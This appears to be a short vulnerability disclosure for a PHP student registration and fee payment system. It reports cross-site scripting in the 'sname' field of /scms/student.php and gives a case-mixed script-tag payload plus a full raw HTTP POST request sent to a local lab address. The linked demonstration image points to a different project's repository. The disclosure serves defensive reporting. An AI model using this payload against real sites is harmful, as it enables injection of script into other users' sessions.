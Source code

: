 # student-registration-and-fee-payment-system - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15355/student-registration-and-fee-payment-system-php-mysql.html

Date: 2022-05-07

Vulnerability File: /scms/student.php

Vulnerability location: /scms/student.php, sname

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST http://192.168.2.102/scms/student.php HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
Content-Type: application/x-www-form-urlencoded
Content-Length: 175
Origin: http://192.168.2.102
Connection: close
Referer: http://192.168.2.102/scms/student.php?action=edit&id=5
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj
Upgrade-Insecure-Requests: 1

sname=%3CScRiPt%3Ealert%281%29%3C%2FsCrIpT%3E&contact=7566969650&grade=11&joindate=2020-02-14&about=Demo+About+Text&emailid=christinemoore%40gmail.com&id=5&action=update&save=
```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/xss.gif?raw=true)